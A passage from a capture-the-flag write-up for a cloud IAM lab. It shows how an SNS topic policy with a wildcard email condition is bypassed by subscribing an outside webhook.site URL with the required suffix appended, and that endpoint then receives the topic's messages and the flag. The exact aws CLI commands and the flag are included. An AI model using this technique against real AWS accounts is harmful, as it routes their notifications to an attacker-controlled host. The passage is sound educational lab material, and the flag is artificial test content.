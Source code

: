 The policy clearly wants us to subscribe to this SNS topic. I’d be happy to oblige! Since we have a wildcard (`*`) before `@tbic.wiz.io`, it means we can use any email!

```bash
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol email --notification-endpoint hello@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

And now we wait.

Wait, what? Wait for what? How do I confirm the subscription to the topic if I have no access to the email? Looks like I fell into the easiest trap!

Okay, let’s think. Since we don’t have access to email, we need to figure out another way to receive a message from the topic. How can we do that? What are the options to receive messages from SNS? We can use the following protocols to communicate with SNS: HTTP, HTTPS, email, email-json, SMS, SQS, application, Lambda, and Firehose. What if we set up an HTTP endpoint to receive messages? Webhooks, here we go! Luckily, there are [services](https://webhook.site) online that allow us to test webhook requests. The trick here is to take the unique webhook URL and add the required endpoint string to the end of the URL: `https://webhook.site/3bddcb48-f58d-4284-a731-491c8784e0b1/@tbic.wiz.io`. Still a valid URL? Let’s find out!

```bash
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://webhook.site/3bddcb48-f58d-4284-a731-491c8784e0b1/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

In a couple of seconds, we receive a message with the configuration URL. Copy and paste it into the browser to confirm the subscription. After several more seconds, we see a new message in the webhook site interface with the flag itself!

```json
{
  ...
  "Message": "{wiz:always-suspect-asterisks}",
  ...
}
```

Third challenge is done -- way to go!

## Challenge 4: Admin only?

::: quote Task

    We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

:::
